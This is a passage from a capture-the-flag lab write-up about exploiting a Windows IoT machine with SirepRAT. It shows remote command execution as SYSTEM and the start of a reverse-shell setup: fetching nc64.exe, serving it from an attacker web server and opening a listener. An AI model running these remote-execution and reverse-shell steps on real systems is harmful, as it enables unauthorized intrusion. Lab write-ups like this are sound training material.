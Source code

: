 ```sh
$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}" --v

---------

---------
---------
C:\Data\Users\System

---------
---------

---------
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
<OutputStreamResult | type: 11, payload length: 22, payload peek: 'b'C:\\Data\\Users\\System\r\n''>
<ErrorStreamResult | type: 12, payload length: 4, payload peek: 'b'\x00\x00\x00\x00''>
```

This shows that the user we have access to is the SYSTEM account, also take note of the `Data` directory at the root of the C drive. It's a bit weird but good to know that the whole Windows IoT OS is inside the Data directory including our user profile, this will be useful in a bit. Now let's see if we can get a reverse shell. To get a reverse shell we'll leverage the `LaunchCommandWithOutput` command and let's also switch to PowerShell which is a bit nicer to use that `cmd.exe`.

```sh
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args '-Command "$env:userprofile"' --v
```

At this point I got stuck for a couple of hours without making much of any progress, I was firmly convinced in creating a PowerShell only reverse shell. After trying many different combinations of Powershell reverse shells it started to dawn on me that this was not going to work. The Windows IoT image is pretty trimmed down missing some vital binaries or functions to get a reverse shell going in Powershell. After a small break, I went back to the drawing board having a look at a site with some amazing hacks and tricks namely [hacktricks](https://book.hacktricks.xyz). And looking for just a brief second at this [page](https://book.hacktricks.xyz/shells/shells/windows#nc) it immediately hit me. Netcat for windows is self-contained and will more likely be able to run on Windows IoT. But we'll need to know what architecture we are dealing with to make sure we download the correct one, either 64 bit or 32 bit.

```sh
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" --args '-Command "ls env
:"' --v

<trunc>
PROCESSOR_ARCHITECTURE         AMD64
<trunc>
```

It's quick and dirty but gets the job done, the response is truncated in the example above, but we can see that the processor architecture is AMD64, hence we'll need the 64-bit version of netcat. With `curl -LO https://github.com/int0x33/nc.exe/raw/master/nc64.exe` it's easy to get the binary on our local machine. With `python -m http.server` we'll bring up a local web server which will help to deliver payloads onto the target machine. The following will download nc64 onto the target machine, where `10.10.14.31` is the IP of your local machine and `8000` is the port where python is running. In another pane have `nv -lnvp 9000` ready to receive the reverse shell:
